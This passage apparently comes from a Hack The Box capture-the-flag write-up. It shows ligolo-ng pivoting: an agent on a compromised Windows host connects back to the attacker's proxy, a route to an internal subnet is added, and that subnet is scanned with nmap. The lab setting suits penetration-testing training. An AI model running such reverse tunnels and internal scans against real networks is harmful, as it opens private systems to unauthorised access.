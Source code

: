 - [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

```c
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user $(whoami) mode tun ligolo
[sudo] password for kali:
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo up
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/serve]
└─$ ./proxy -laddr 10.10.14.79:443 -selfcert
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 10.10.14.79:443                 
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _                                
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                  
        /____/                          /____/                                                                                                                                                                                              
  Made in France ♥            by @Nicocha30!                                                                                                                                                                                                
ligolo-ng »
```

```c
PS C:\tmp> .\agent.exe -connect 10.10.14.79:443 -ignore-cert
.\agent.exe -connect 10.10.14.79:443 -ignore-cert
time="2024-10-27T08:02:42-07:00" level=warning msg="warning, certificate validation disabled"
time="2024-10-27T08:02:42-07:00" level=info msg="Connection established" addr="10.10.14.79:443"
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo ip route add 192.168.99.0/24 dev ligolo
```

### Host Enumeration

A quick look at the `open ports` of both machines showed nothing out of the ordinary.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 192.168.99.12
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 18:05 CET
Nmap scan report for 192.168.99.12
Host is up (0.0046s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 17:7a:b3:84:00:58:b7:46:2f:5b:6e:30:b8:2f:ab:73 (ECDSA)
|_  256 90:ef:af:b3:76:2d:60:80:03:4f:00:63:7b:b9:d6:45 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.19 seconds
```

